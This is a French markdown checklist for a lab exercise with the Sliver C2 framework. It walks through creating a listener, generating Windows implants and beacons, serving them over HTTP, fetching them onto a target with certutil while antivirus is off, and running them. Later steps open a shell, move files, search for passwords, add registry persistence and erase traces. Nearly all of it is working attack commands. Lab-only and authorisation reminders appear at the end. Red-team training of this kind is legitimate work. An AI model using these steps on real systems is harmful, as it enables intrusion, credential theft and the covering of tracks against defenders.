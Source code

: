 # ✅ CHECKLIST SILVER C2 - SUIVI DES ÉTAPES

## 📋 PHASE 1: PRÉPARATION
- [ ] **ÉTAPE 1** : Mise à jour Kali → `sudo apt update && sudo apt upgrade -y`
- [ ] **ÉTAPE 2** : Installation Silver C2 → `sudo apt install sliver -y`
- [ ] **ÉTAPE 3** : Vérification → `sliver-server version` + `sliver-client --help`

## 🚀 PHASE 2: DÉMARRAGE
- [ ] **ÉTAPE 4** : Noter votre IP Kali → `ip addr show`
  - **Mon IP**: ________________
- [ ] **ÉTAPE 5** : Serveur → `sudo sliver-server` (Terminal 1)
- [ ] **ÉTAPE 6** : Client → `sliver-client` (Terminal 2)

## 🎯 PHASE 3: LISTENERS
- [ ] **ÉTAPE 7** : Listener mTLS → `mtls --lport 443`
- [ ] **ÉTAPE 8** : Vérification → `jobs`

## 💾 PHASE 4: PAYLOADS
- [ ] **ÉTAPE 9** : Répertoire → `mkdir ~/silver-payloads && cd ~/silver-payloads`
- [ ] **ÉTAPE 10** : Payload Windows → 
  ```bash
  generate --mtls [VOTRE_IP]:443 --os windows --arch amd64 --format exe --save /home/kali/silver-payloads/payload.exe
  ```
- [ ] **ÉTAPE 11** : Beacon → 
  ```bash
  generate beacon --mtls [VOTRE_IP]:443 --os windows --arch amd64 --format exe --jitter 30s --interval 60s --save /home/kali/silver-payloads/beacon.exe
  ```
- [ ] **ÉTAPE 12** : Vérification → `ls -la ~/silver-payloads/`

## 🌐 PHASE 5: TRANSFERT
- [ ] **ÉTAPE 13** : Serveur HTTP → `python3 -m http.server 8080` (Terminal 3)
- [ ] **ÉTAPE 14** : Test accès → `curl -I http://[VOTRE_IP]:8080/payload.exe`

## 🎯 PHASE 6: TEST CIBLE
- [ ] **ÉTAPE 15** : VM Windows préparée (antivirus désactivé)
- [ ] **ÉTAPE 16** : Téléchargement → 
  ```cmd
  certutil -urlcache -split -f http://[VOTRE_IP]:8080/payload.exe payload.exe
  ```
- [ ] **ÉTAPE 17** : Exécution → `.\payload.exe` (CIBLE UNIQUEMENT!)
- [ ] **ÉTAPE 18** : Vérification connexion → `sessions`

## 🔥 PHASE 7: POST-EXPLOITATION
- [ ] **ÉTAPE 19** : Interaction → `use [ID_SESSION]`
- [ ] **ÉTAPE 20** : Reconnaissance → `info`, `whoami`, `pwd`, `ls`
- [ ] **ÉTAPE 21** : Shell → `shell`
- [ ] **ÉTAPE 22** : Transfert fichiers → `download` / `upload`

## 🔍 PHASE 8: TECHNIQUES AVANCÉES
- [ ] **ÉTAPE 23** : Énumération → `execute ipconfig /all`, `execute netstat -an`
- [ ] **ÉTAPE 24** : Test persistence → `execute reg add ...`
- [ ] **ÉTAPE 25** : Recherche fichiers → `execute dir C:\ /s /b | findstr password`

## 🧹 PHASE 9: NETTOYAGE
- [ ] **ÉTAPE 26** : Supprimer traces → `execute reg delete ...`, `execute del ...`
- [ ] **ÉTAPE 27** : Fermer session → `sessions -k [ID]` ou `exit`
- [ ] **ÉTAPE 28** : Arrêt Silver → `jobs -k 1` + `exit` + Ctrl+C serveur

---

## 📝 NOTES PERSONNELLES

**Adresse IP Kali**: ____________________

**ID Session active**: ____________________

**Problèmes rencontrés**:
- 
- 
- 

**Commandes qui ont bien fonctionné**:
- 
- 
- 

---

## 🆘 AIDE RAPIDE

### Commandes essentielles Silver C2:
```bash
# Gestion sessions
sessions                 # Lister
sessions -i [ID]        # Interagir
use [ID]               # Utiliser
background             # Arrière-plan

# Dans une session
info                   # Infos système
whoami                 # Utilisateur
pwd                    # Répertoire
ls                     # Fichiers
ps                     # Processus
shell                  # Shell interactif
download [src] [dst]   # Télécharger
upload [src] [dst]     # Uploader
execute [cmd]          # Commande
```

### Listeners:
```bash
jobs                   # Lister listeners
mtls --lport 443      # Listener mTLS
http --lport 80       # Listener HTTP
```

### Génération payloads:
```bash
generate --mtls IP:443 --os windows --format exe --save payload.exe
generate beacon --mtls IP:443 --os windows --format exe --save beacon.exe
implants              # Voir payloads générés
```

---

## 🔴 SÉCURITÉ - RAPPELS IMPORTANTS

- ✅ **UNIQUEMENT** environnement de test
- ✅ **TOUJOURS** autorisation écrite
- ✅ **NETTOYER** après chaque test  
- ❌ **JAMAIS** sur systèmes de production
- ❌ **JAMAIS** sans autorisation

---

**Date du test**: ____________________
**Testeur**: ____________________
**Environnement**: ____________________

✅ **Test terminé avec succès** ☐ **Nettoyage effectué** ☐